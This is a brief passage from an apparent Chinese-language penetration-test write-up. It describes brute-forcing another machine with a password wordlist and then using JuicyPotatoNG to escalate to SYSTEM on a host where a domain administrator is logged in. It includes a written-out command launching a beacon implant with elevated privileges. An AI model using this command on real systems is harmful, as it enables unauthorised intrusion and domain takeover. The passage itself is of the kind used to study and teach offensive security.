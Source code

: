 成功通过密码本组合爆破出另一台机器

![image-20220929151450411.png](assets/1698900874-901efd4d78ee4fd96d0588a9de81319c.png)

#### 高版本机器提权

查看进程发现上面登着域管进程，低权限先提个权

使用下面项目直接到 system

[https://github.com/antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

`shell JuicyPotatoNG.exe -t \* -p "beacon.exe"`

![image-20221010151910751.png](assets/1698900874-7c716888dcf762305a855a69ec1f72a7.png)
